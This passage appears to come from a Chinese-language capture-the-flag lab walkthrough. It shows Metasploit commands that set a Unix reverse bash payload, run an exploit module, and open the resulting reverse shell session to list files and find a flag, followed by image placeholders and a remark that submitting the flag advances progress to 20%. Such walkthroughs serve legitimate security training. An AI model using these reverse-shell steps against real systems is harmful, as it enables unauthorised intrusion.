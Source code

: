```
# 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash
#执行当前的漏洞利用模块
exploit -j
# 查看打开的reverse shell
sessions -l
# 进入会话 1，无命令行交互提示信息，可以直接输入bash指令获取第一个flag
sessions -i 1
id
ls /tmp
```

![alt text](image-16.png)

![alt text](image-17.png)

将上图中显示出的flag提交，可以发现成功，进度条涨至20%。

![alt text](image-18.png)
